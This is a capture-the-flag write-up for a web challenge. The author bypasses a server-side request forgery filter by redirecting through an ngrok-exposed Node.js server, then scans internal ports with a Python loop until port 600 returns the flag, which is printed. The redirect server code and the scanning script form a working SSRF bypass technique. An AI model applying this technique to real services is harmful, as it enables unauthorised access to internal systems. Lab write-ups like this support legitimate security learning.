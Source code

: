 # Super Website Verificator 3000

> Our team of brilliant engineers has developed a highly sophisticated website designed to perform check-ups on other sites. It can even uncover hidden information, possibly concealed by some clever tricksters. Take a look and see if you can find anything!
> 
> The problem with the 169.254 subnet was fixed, it was a security issue with the infrastructure.
> 
> `http://challenges.hackday.fr:43244`

Upon opening the website, we will see the following webpage with an input element.

![Homepage](img1.png)

After inserting a URL as input and enabling the checkbox, we will receive the response body.

![Checking URL](img2.png)

This looks like **Server-side request forgery (SSRF)**. Firstly, I tried to use `http://localhost` as input to check if application would process it, but I got the error `Error: you must provide a valid domain name`.

![Localhost Error](img3.png)

Secondly, I used `http://127.0.0.1` and it returned the same error. Sending `https://example.com@localhost` gave me `Error: you must provide a valid domain name`. So I decided to check the HTML through dev tools. I found out that there is a `<script>` element sending a POST request to `/api/check`. There were no checks returning errors, which means the validation was performed server-side, making editing the response through [Burp Suite](https://portswigger.net/burp) pointless.

![Dev Tools](img4.png)

So I decided to create a local server and expose it with [ngrok](https://ngrok.com/). The local server listens for requests and redirects clients to `http://127.0.0.1:80`.

```js
const http = require("http");

http.createServer((req, res) => {
    console.log(`Request Details: Method=${req.method}, URL=${req.url}`);
    res.writeHead(302, { Location: "http://127.0.0.1:80" });
    res.end();
  }).listen(8080, () => console.log("Node.js web server at 8080 is logging client info and redirecting..."));
```

The following script sets up a Node.js server to redirect requests to a specific local port. Then I opened a server to public with `ngrok http 8080` and received my website's URL. After that I've tried to use it in the task.

![Ngrok URL Testing](img5.png)

This worked. Afterward, I decided to use [DirBuster](https://www.kali.org/tools/dirbuster/) to find secret directories and files, but it didn't yield any results. Then I decided to check different ports on the internal server. Firstly, I changed the server script.

```js
const http = require('http');

http.createServer((req, res) => {

    console.log(`Request Details: Method=${req.method}, URL=${req.url}`);

    port = req.url.split('=')[1];
    console.log(`Port: ${port}`);

    res.writeHead(302, { 'Location': 'http://127.0.0.1:' + port });
    res.end();
}).listen(8080, () => console.log('Node.js web server at 8080 is logging client info and redirecting...'));
```

Secondly, I created a Python script to send the ngrok URL with ports from 1 to 1000 to the `/api/check` route.

```python
import requests

url = "http://challenges.hackday.fr:43244/api/check"
# Replace <REDACTED> with your URL
test_url = "https://<REDACTED>.ngrok-free.app/?port="

for i in range(1, 1000):
    # Replace <REDACTED> with your URL
    test_url = f"https://<REDACTED>.ngrok-free.app/?port={i}"
    response = requests.post(url, data={"url": test_url, "showBody": "on"})
    print(f"Testing port {i}:\n{response.text}\n")
```

After some time, the script sent a request to port 600, which returned a flag.

![Console Screenshot](img6.png)

`HACKDAY{Give_ME_YOuR_L0OPb@CK}`
